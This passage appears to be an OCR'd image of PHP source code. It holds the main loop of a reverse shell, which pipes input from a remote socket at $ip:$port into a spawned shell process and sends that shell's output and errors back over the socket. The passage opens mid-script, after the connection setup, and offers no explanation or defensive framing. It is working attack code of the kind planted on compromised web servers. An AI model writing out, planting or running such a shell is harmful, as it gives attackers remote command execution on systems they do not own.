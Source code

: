 ```php
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
